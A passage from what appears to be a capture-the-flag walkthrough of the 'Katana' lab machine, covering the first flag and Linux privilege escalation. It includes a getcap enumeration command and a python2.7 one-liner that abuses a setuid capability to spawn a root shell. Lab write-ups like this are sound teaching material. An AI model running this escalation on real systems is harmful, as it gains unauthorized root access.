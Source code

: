 - We found our first flag located in the `home` directory in the file `local.txt`! 

---

### Step 6: Privilege Escalation
The next step is to see how we can gain root access to the server. There are several ways to go about this, including scripts that will attempt to find any kind of `sudo` rights, look over file permissions, and any other potential information that we can leverage. 
- The link below provides a checklist of commands we can run and areas to check:
  
```
https://github.com/rmusser01/Infosec_Reference/blob/master/Draft/Cheat%20sheets%20reference%20pages%20Checklists%20-/Linux/cheat%20sheet%20Basic%20Linux%20Privilege%20Escalation.txt
```

- In this case, we were able to find potential leverage using the `getcap`:

```
/usr/sbin/getcap -r / 2>/dev/null
```

![Link an image](https://raw.githubusercontent.com/DigitalHammer/Security-Writeups/main/OffSec-ProvingGrounds/Katana/Images/13-priv-esc.jpg "Katana Walkthrough")

- This showed us `python2.7` with `setuid+ep`
- Now we can try to use python to open up a shell to gain root access:

```
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash ")'
```

![Link an image](https://raw.githubusercontent.com/DigitalHammer/Security-Writeups/main/OffSec-ProvingGrounds/Katana/Images/14-pwn.jpg "Katana Walkthrough")

- By running `whoami` we can confirm that we have successfully gained `root`! 

---
